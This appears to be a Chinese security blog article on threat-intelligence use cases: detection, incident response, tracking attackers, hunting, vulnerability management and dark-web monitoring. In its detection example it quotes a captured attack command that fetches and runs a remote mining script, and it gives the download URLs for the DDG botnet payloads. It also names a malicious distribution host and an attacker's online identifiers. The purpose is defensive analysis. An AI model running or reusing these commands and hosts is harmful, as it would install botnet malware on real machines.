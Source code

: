 
# 浅谈威胁情报应用场景


                                阅读量   
                                **722301**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                    



[![](./img/202426/t011455ecc1b28c5fb7.png)](./img/202426/t011455ecc1b28c5fb7.png)



## 一、引言

现今网络攻防环境愈发复杂，威胁情报现在作为一种弥补攻防信息不对称的安全技术逐渐得到了广泛的认识，更多企业也开始接受并购买威胁情报数据来建设企业安全。笔者对当下的威胁情报应用较多的场景进行了一些总结，期待与业界各位权威进一步交流。



## 二、威胁情报定义

在探讨威胁情报应用的问题之前，我们必须首先要回答清楚：什么是威胁情报？

SANS研究院的说法是：针对安全威胁、威胁者、利用、恶意软件、漏洞和危害指标，所收集的用于评估和应用的数据集。Gartner的解释则是：威胁情报是基于证据的知识，包括上下文、机制、指标、隐含和可操作的建议，针对一个现存的或新兴的威胁，可用于做出相应决定的知识。

很显然，单一的信息或数据一般算不上威胁情报，只有经过分析处理过的准确有价值的信息才能算是威胁情报。我们对这些解释提取一个公约数，可以给威胁情报一个简明的定义：以证据为基础的知识（包括背景、机制、指标、含义以及可采取的行动建议），关于当前的或正在出现的威胁或危害资产的，可用于通报有关该主题对威胁或危险作出反应的决定。

威胁情报的应用场景

威胁情报有以下几个常见的应用场景：

攻击检测与防御

攻击团伙追踪

威胁狩猎

事件监测与响应

基于情报驱动的漏洞管理

暗网情报发现

### 2.1攻击检测与防御

威胁情报应用于攻击检测与防御是应用得较多的场景之一。通过机读情报以订阅方式集成到现有的安全产品之中，实现与安全产品协同工作，如SIEM、IDS等产品中，可以有效的缩短平均检测时间（MTTD：Mean-Time-to-Detect），当平均检测时间降低即表示着企业的安全能力得到了提升。威胁情报对已有的IP/Domain/HASH等信誉库进行了标准化的补充，可以让其可以更加有效发挥作用。准确及时的失陷标示数据可以帮助用户快速处理已经或正在发生的威胁，比如黑样本的HASH、对外连接的C&amp;C及Downloader服务器的IP或域名，网络边界设备或运行于主机上的Agent可以通过简单的匹配就能发现并采用自动化的应对措施。

下面通过应用实例来说明威胁情报在攻击检测与防御中的作用。笔者从部署的蜜网中发现了一条攻击信息wget -q -O- http://67.205.168.20:8000/i.sh。链接的主要内容为shell脚本，功能是远程下载挖矿程序，创建定时任务。

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e82e65d17fd43fb9.png)

由上图可以得知攻击载荷下载链接为http://67.205.168.20:8000/static/4011/ddgs.i686和http://67.205.168.20:8000/static/4011/ddgs.x86_64，经过分析确认为DDG僵尸网络病毒，将信息整理为机读情报（STIX格式），大致如下图：

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01de5041c7d3488f33.png)

应用于其他安全产品中需要转化成安全产品的标准格式，例如IDS产品。IP类的可以应用于NIDS中，恶意软件的hash可应用于HIDS，例如下图将上述情报中的IP其转化成Snort规则，可以直接在网络层面对其检测：

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0116ad0ff11d35a21c.png)

### 2.2事件监测与响应

威胁情报应用于事件监测与响应也是威胁情报使用较多的一个场景之一。安全人员对检测到的网络威胁进行响应，调查已发生或者正在发生的事件。在此场景下，使用威胁情报是为了缩短平均响应时间（MTTR：Mean-Time-to-Respond）。

在日常处理应急过程中，事中阶段，安全人员会根据IOC信息以及其他相关信息快速识别攻击，或者根据机子所感染显示的一些特征，如外连的IP、注册表信息、进程名等去查询是否有出现类似的情报信息（开源情报或者内部情报），来明确威胁攻击类型，来源以及攻击的意图等。快速评估企业内部资产受损程度及影响面，判断攻击所处的阶段，做出针对性的措施来阻止攻击进一步扩大；事后阶段，安全人员可以根据事件中出现的新的情报信息进行增补，如新变种、新C&amp;C等，方便后续安全运营以及更好地应对同类型的攻击。

举个例子，客户反馈个人PC异常卡顿，可能感染了病毒。现场取证之后，安全分析人员确认为挖矿攻击事件。首先查看了计划任务，发现创建了两个SYSTEM权限的任务计划。路径分别为C:WindowsFontsMysqlwai.bat和C:WindowsFontsMysqlnei.bat。

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0123bfa30ff30c0ef7.png)

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01210a982517ca55d2.png)

根据病毒所体现的行为特征（CPU资源占用高、可疑的计划任务）结合开源情报，可以快速确定其为NSABuffMiner家族，可能为变种。报告中所分享的IOC信息，帮助安全运维人员定位到可疑进程的路径以及外连矿池地址，优先封禁外连的矿池IP，然后清除PC上所感染的恶意代码，修补永恒之蓝漏洞。事后阶段，对整个攻击事件进行复盘分析，发现攻击者首先入侵了服务器，然后使用了永恒之蓝系列漏洞利用工具，进而感染了内网。

### 2.3攻击团伙追踪

威胁情报追踪攻击团伙是一个长期的运营过程，需要积累一定量的攻击团伙的TTP，即战术、技术、过程三个维度。当然这只是针对高级攻击组织，对于小黑客来说，根据一些攻击中暴露的细节并结合威胁情报就可以追溯得到。下面通过一个例子来说明威胁情报在这个场景下的作用。

攻击者搭建HFS恶意站点传播恶意软件，站点url：http://125.65.109.98:8080/，监测日期为2018年6月28号。攻击者恶意工具软件类型包括了后门远控、DDOS软件、门罗币挖矿、爆破工具、抓鸡工具、扫描工具，还有用于灰产的刷量工具。

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e6f8f663597de2ae.png)

根据此IP，我们在情报平台上查询Passivedns，可以得知该IP绑定的域名是qq461677041.f3322.org

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t018372472788171c49.png)

根据qq461677041字符查找相关信息

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01394c5ad6074877fd.png)

同时我们还挖掘到该开发者的百度网盘，昵称“love小科520”，分享的工具与HFS站点如出一辙。

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e5223f49958223d3.png)

再细深挖，根据其微信号和QQ为同一账号，可以找到对应的攻击者画像，确认攻击者的活动范围，在此不在赘述。

使用威胁情报对攻击团伙进行追溯其实就是用好手上的数据，尽可能提炼攻击团伙的TTP，再结合基础数据生成攻击团伙的攻击画像，跟进分析相似度高的攻击事件，不断总结更新攻击者画像。

### 2.4威胁狩猎

威胁狩猎是一种当前较新的高级威胁发现的方法，旨在事件发生之前，提前发现威胁，由被动变为主动。这需要安全分析人员具有较高的威胁发现能力，主动去根据网络中的异常情况来发现高级威胁，而威胁情报就能给与安全分析人员很好的帮助。 威胁猎捕是对各种数据源，所以IOC情报在威胁狩猎中可以起到重要作用。威胁狩猎模型中使用IOC-Based Hunting和TTP-Based Hunting。

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01c5193db57ea91ad4.png)

### 2.5基于情报驱动的漏洞管理

漏洞情报管理的主要目的是为了保护用户资产、数据传输过程。结合威胁情报，可以帮助安全运维人员快速定位影响资产安全的关键风险点。当漏洞情报被披露时，企业可以根据漏洞情报再结合企业的资产信息来分析漏洞对整个业务的影响，提前修复关键漏洞。特别是在0day漏洞的在野利用事件爆发的时候，漏洞情报就显得格外重要。

2017年Wanncry勒索病毒利用的MS17-010漏洞感染了大量的设备终端，之所以会有这种大规模的漏洞攻击爆发，Shadowbroker发布漏洞利用工具的时间为4月14日，较勒索病毒爆发期还有将近一个月的时间差。如果当时采用基于情报驱动漏洞管理的机制之下，完全可以将企业的损失降低。当然企业和普通用户不可能自己建立一套漏洞情报系统，所以就需要外部情报系统推送漏洞情报来辅助企业安全人员来定位资产风险点。

### 2.6暗网情报发现

暗网中存在大量非法交易，恶意代码、毒品、数据贩卖等。近年国内也发生了多起大型数据泄露的事件，诸如2018年华住酒店数据泄露并在暗网出售；Acfun遭黑客攻击数据泄露。下图为华住旗下酒店开放数据在暗网出售截图：

[![](./img/202426/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t015097a199ea3295b2.png)

企业需要此类的情报信息来避免被薅羊毛、数据泄露、业务风险等。虽然有可能对于企业只是亡羊补牢的操作，但是在一定程度上能够为企业提供信息，帮助企业定位到可疑的攻击点。



## 三、结语

威胁情报无疑是当前安全行业的一个热点关键词，也被业界寄予了厚望。但就实际的应用和经验来看，安全领域不存在单点的银弹技术，威胁情报固然在某些方面有极高的能力，但并非解决安全问题的“灵丹妙药”——威胁情报的应用场景虽然多种多样，但是如何生产优质的情报，如何形成情报闭环、推动情报落地，这些才是问题的关键。
